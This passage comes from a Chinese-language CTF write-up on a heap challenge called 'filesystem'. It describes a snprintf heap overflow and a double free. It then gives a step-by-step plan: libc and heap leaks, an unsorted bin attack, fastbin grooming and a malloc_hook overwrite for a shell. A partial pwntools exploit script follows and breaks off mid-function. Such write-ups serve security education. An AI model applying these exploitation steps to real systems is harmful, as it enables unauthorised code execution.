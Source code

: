 DeleteFile删除文件，放入delete_node中，free并没有清空文件内容

![DeleteFile1](./8.jpg)

![DeleteFile2](./9.jpg)

RecoverFile恢复文件，将deleted_node的节点加回到链表尾部

![RecoverFile](./10.jpg)

## 漏洞利用

经过上述分析，有两个漏洞，一个snprintf可以造成堆溢出，对于一个节点，Delete再Recover之后可以再Delete，为double free(因为Recover并没有重新malloc，而是把释放过的节点又连接到了链表尾部)。

我们首先分配一个0x90的块，按照上述方法，free->recover->show可以泄露libc。同理free两个fast bin大小的块再recover再show可以泄露heap_base。

分配一个0x38一个0x48的块(从第一个Unsorted bin分配)，释放它们让他们进入fast bin，分配一个0x90的块再释放(这个块在第一个Unsorted bin的下方)，得到unsorted bin，再分配一个content_chunk大小为0x38的块，用掉刚才的fast bin，用snprintf的漏洞，可以让这个content_chunk覆写到Unsorted bin，修改其bk = 0x603068-0x10，再分配0x90的块就可以让0x603068写入main_arena+88，但是这里有个坑，就是每次都是要先分配0x58大小的堆作为file_chunk，这里就从Unsorted bin里分配，我们知道Unsorted bin攻击之后就只能用fast bin或者small bin进行分配了，因此这里会出错。解决方案就是提前分配一堆0x48的块，释放进0x50的fast bin，从此CreateFile都从它们中取，同理，我们double free需要的file_chunk也要从它们取，另外还要提前布置好0x70的fast bin的环境，突破限制之后直接一顿分配即可。最后分配0x10的块，使用Unsorted bin报错从而调用Malloc_hook得到shell。

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 1
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    p = process('./filesystem')
    offset = 0x3c4b20
    #gdb.attach(p)
else:
    p = remote('172.16.20.2',9999)

def CreateDir(name):
    p.recvuntil('Your choice: \n')
    p.sendline('1')
    p.recvuntil('Give me the directory name: \n')
    p.sendline(name)

def CreateFileN(dir_name,file_name,file_size,content, is_changed='n'):
    p.recvuntil('Your choice: \n')
    p.sendline('2')
    p.recvuntil('which directory do you want to put this file in: \n')
    p.sendline(dir_name)
    p.recvuntil('Ok, plz input your filename(len<=0x20): \n')
    p.sendline(file_name)
    p.recvuntil('file size: \n')
    p.sendline(str(file_size))
    p.recvuntil('changed!!\n')
    p.sendline(is_changed)
    p.recvuntil('Content: \n')
    p.sendline(content)
def CreateFileY(dir_name,file_name,file_size,new_file_name,content, is_changed='Y'):
    p.recvuntil('Your choice: \n')
    p.sendline('2')
    p.recvuntil('which directory do you want to put this file in: \n')
    p.sendline(dir_name)
    p.recvuntil('Ok, plz input your filename(len<=0x20): \n')
    p.sendline(file_name)
```